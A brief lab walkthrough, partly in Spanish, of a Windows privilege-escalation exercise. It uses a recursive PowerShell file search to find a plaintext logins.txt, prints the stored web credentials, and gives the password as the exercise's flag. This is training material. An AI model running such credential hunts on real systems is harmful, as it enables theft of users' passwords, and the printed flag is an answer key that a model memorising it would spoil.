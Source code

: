 # Walk: Windows Privilege Escalation - Hidden in Plain View - VM #1

## Fecha:03/03/2025
## Host: Windows
## IP: 192.168.113.220
## Objetivo
Log into the system _CLIENTWK220_ (VM #1) via RDP as user _steve_. Search the file system to find login credentials for a web page for the user _steve_ and enter the password as answer to this exercise.
## Herramientas
1. Get-ChildItem

## Procedimiento y comandos
#### Paso1: Del challenge buscamos el archivo con extension .txt
```
PS C:\Users\steve> Get-ChildItem -Path C:\Users\steve\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue


    Directory: C:\Users\steve\Contacts


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         12/6/2022   2:12 AM            168 logins.txt


PS C:\Users\steve> type Contacts/logins.txt

https://myjobsucks.fr33lancers.com
user: steve
pass: thisIsWhatYouAreLookingFor
PS C:\Users\steve>
```
- flag: **thisIsWhatYouAreLookingFor**
